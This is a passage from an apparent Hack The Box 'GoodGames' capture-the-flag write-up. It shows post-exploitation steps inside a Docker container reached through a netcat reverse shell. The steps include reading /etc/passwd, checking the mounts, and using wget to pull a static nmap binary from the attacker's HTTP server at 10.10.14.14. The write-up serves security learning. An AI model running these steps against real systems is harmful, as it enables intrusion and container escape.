 ```bash
root@3a453ab39d3d:/home/augustus# cat /etc/passwd | grep augustus
cat /etc/passwd | grep augustus

root@3a453ab39d3d:/home/augustus# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

As there wasn’t any `augustus` in `/etc/passwd`, it might indicate that this home directory is mounted into the container from the host.

```bash
root@3a453ab39d3d:/home/augustus# mount | grep augustus
mount | grep augustus
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

Now, we have to find the Docker’s host. We can do this by using a static binary of `nmap` from this GitHub [repository](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap).

```bash
- Netcat Listener -
root@3a453ab39d3d:/home/augustus# ip addr                           
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever

- Own Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap

┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.130 - - [15/Aug/2022 20:52:20] "GET /nmap HTTP/1.1" 200 -

- Netcat Listener -
root@3a453ab39d3d:/home/augustus# wget http://10.10.14.14/nmap
wget http://10.10.14.14/nmap
root@3a453ab39d3d:/home/augustus# ls
```